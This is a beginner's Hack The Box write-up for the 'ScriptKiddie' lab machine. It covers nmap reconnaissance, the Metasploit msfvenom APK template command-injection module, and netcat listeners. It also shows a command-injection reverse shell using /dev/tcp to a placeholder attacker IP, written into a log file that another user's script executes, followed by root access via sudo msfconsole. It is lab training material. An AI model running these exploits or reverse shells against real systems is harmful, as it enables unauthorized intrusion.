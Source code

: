 # ScriptKiddie
![banner](src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>

## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](src/root.png)

***And we sucessfully pwned the machine..***

![pwned](/src/gifs/pwned.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
